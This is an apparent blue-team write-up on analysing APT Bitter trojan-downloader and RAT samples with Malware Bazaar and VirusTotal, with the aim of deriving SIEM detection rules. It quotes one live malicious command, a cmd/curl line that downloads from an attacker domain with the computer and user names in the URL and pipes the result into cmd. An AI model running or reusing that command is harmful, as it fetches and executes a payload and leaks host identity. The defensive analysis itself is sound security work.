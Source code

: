 **Last updated by:** Surekha1604, **Last updated on:** 24/09/2024

**Last updated by:** Surekha1604, **Last updated on:** 24/09/2024

# Efficient and Effective Way of Analyzing TTPs of Malware

## Introduction

In today's evolving cybersecurity landscape, analyzing malware and understanding its **Tactics, Techniques, and Procedures (TTPs)** is crucial to building effective defenses. This demonstration uses **Malware Bazaar** and **VirusTotal** to efficiently analyze malware samples, identify malicious behaviors, and extract key signatures.

**Malware Bazaar** is a vast repository of malware samples, contributed by the security community, researchers, and organizations. This analysis will use samples of **RAT** and **Stealer Malware** to uncover the methods and patterns they commonly employ, such as task scheduling, dropping executables in startup folders, and leveraging **PowerShell scripts** for executing commands or deploying shell scripts.

The analysis of these samples will take place on **VirusTotal**. On this well-established platform, files and URLs are scanned using various antivirus engines and behavioral analysis tools. VirusTotal will be useful in analyzing the malware samples obtained from Malware Bazaar, helping to highlight the techniques they employ and aiding in identifying key signatures that can be used to detect and mitigate threats by creating rules that will be integrated into **SIEM solutions**. By combining these tools, this demonstration aims to showcase a practical approach to efficiently recognizing critical malware behaviors for improved detection and response capabilities.

## Goals and Objectives

The main goal of this demonstration and documentation is to showcase an efficient method of analyzing **TTPs** of various malware samples attained from Malware Bazaar using VirusTotal. Additionally, this analysis aims to help my team improve the detection capabilities of the **SIEM solution** by identifying important signatures that can be used to create rules.

Initially, the **TTPs** of some malware samples used by **APT Bitter** (as shown in Figure 1) will be utilized to identify important patterns. I began with the analysis of **SHA256** `1cafe3979fbd529129440e058b8ed8e0d4e283325dee448816d3aa354f7c412a`, which is attributed as **Trojan-Downloader** because it downloads other stage malware such as **RAT** and **Info-Stealer Malware**.

Also, it can be seen in Figure 3 that the malware is using the following command  “ ['--headless
cmd /c "curl -o C:\\users\\public\\Music\\cdr.tr
colorsofnether.com/bgte.php?hy=%computername%BBB%username% & more
C:\\users\\public\\Music\\cdr.tr|cmd"']” to connect and download another malwar.Such patterns are used by malicious actors to secretly download and execute **RAT** and **info-stealer** malware, as these malwares can be easily detected if used directly.

Hence, a rule can be created to generate an alert upon any process that involves:
Command Prompt && Curl Statement && .php? string
Similarly, `C:\\users\\public\\Music\\` is the directory where the malware is dropped. Therefore, a rule can be created to generate an alert if files with extensions `.exe`, `.zip`, `.py`, `.ps1`, `.psm1`, `.lnk`, and `.vbs` are dropped or used in the `C:\\users\\public\\Music\\` directory.

![](img\ef-1.jpg)
![](img\ef-2.jpg)

![](img\ef-3.jpg)

## Analysis of Next Malware

The next malware that was analyzed is a **RAT** malware with info-stealing capabilities having the **SHA256** hash:
dcdae583da8a1b01a8ad0caef6a7f6f3b6f1eb6dd3298ac7d904200f52712446
This malware was downloaded using the 1st stage malware as described previously. Some of the URLs that were used by the malware are shown in Figure 4, and the highlighted domain should be blocked in the **Firewall**.
![](img\ef-4.jpg)

![](img\ef-5.png)

## Important Signature Identification

One important signature identified in this analysis is the usage of the **Command Prompt** for the execution of the malware, as shown in Figure 6. Thus, a rule can be created that should alert if the command prompt executes any executable file. 

While there may be some false alerts over time, the detection can be improved by optimizing the rules for better accuracy. This can include adding detections for any modifications in directories that malware typically alters to drop or delete files, along with changes in the **Registry**.

![](img\ef-6.jpg)

## Additional APT Bitter Malware Analysis

Some other **APT Bitter** malwares analyzed in this activity revealed more useful patterns, as shown in Figures 7 and 8. These patterns include:

- Scheduling tasks
- Using `hh.exe` to open `.chm` files
- Utilizing `msiexec` to execute `.msi` files

Therefore, similar rules can be created and integrated into the **SIEM** while testing them, to identify such malwares that are otherwise not easily detected by Anti-Malware Software.
![](img\ef-7.jpg)
![](img\ef-8.jpg)

## Conclusion   

This demonstration provides a practical way of using **VirusTotal** and **Malware Bazaar** to efficiently analyze various malware samples to identify important signatures as outlined in this document. This method can be applied to more malware; however, we utilized only a few **APT Bitter** malware samples to showcase the method. The document clearly demonstrates the usability of VirusTotal in analyzing **TTPs** of different malware. 

Overall, the blue team can use this method to analyze TTPs of many malwares in less time, allowing for the creation of various rules and optimizations for detection in **SIEM Solutions**.

## References

- [Malware Bazaar - APT Bitter Signatures](https://bazaar.abuse.ch/browse/signature/Bitter/)
- [VirusTotal](https://www.virustotal.com)

